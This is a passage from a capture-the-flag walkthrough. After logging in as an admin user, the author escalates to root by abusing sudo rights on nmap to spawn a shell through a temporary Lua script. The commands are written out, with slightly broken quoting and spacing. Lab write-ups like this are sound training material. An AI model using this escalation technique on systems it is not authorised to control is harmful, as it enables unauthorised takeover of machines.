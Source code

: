 ![alt img](images/9-2.png)

Now we are logged in as administrative user and we got our first flag  !!!. 
WELLDONE HACKERS,, YOU HAVE CAPTURED THE FIRST FLAG(I know it was not particularly easy but you did it.)

## ROOT PRIVILEDGES

We ventured inside as an administartor but it does not stop there - we need to root this machine, to have total  control. It's like getting a promotion at work - you get more access, more power, and more opportunities to make things happen.

Firstly lets see what can our admin(@freddie do)
```sh
sudo -l
```

Freddie has priviledge to run nmap so we will use Nmap binaries to gain root
```sh
TF=$(mktemp)
echo 'os.execute("/bin/sh -ii)' > $TF
sudo nmap --script= $TF
```

And we gained root..Lets go for our beautiful flag
```sh
whoami
ls
cat user.txt
```
